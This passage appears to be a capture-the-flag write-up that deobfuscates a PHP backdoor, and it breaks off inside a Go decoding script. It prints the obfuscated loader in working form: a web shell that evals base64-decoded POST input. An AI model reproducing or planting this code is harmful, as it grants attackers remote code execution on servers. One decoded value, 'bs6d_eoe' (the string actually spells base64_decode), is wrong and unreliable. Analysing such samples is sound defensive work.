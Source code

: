 It decodes out the PHP code with `echo`. This time it reveals more obfuscatation. Doing the same thing by deobfuscating it to able view the encoded strings clearer.

```php
$_='aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';

$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';

$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";

eval($___($__));
```

From the first `$_` and second `$__` strings, it is a base64 encoded strings but the third `$___` strings is in hex . Decode it shows this:
```php 
$_ = if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }


$__ =$code=base64_decode($_);eval($code);


$___ = bs6d_eoe 
```

From the encoded string, it is a mix of octal and hex. Here is the script to decode it:

```go 
package main

import (
	"fmt"
	"regexp"
	"strconv"
	"strings"
)

func main() {
	// The input string with various escape notations
	input := `\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D`
	
	// Corrected parsing methods
	fmt.Println("Corrected Method 1 - Character by character parsing:")
	result1 := parseCharByCharCorrected(input)
	fmt.Println(result1)
	
	fmt.Println("\nCorrected Method 2 - Regex-based parsing:")
	result2 := parseWithRegexCorrected(input)
	fmt.Println(result2)
}

// Corrected Method 1: Character by character parsing with decimal support
func parseCharByCharCorrected(input string) string {
	var result strings.Builder
	i := 0

	for i < len(input) {
		if input[i] == '\\' {
```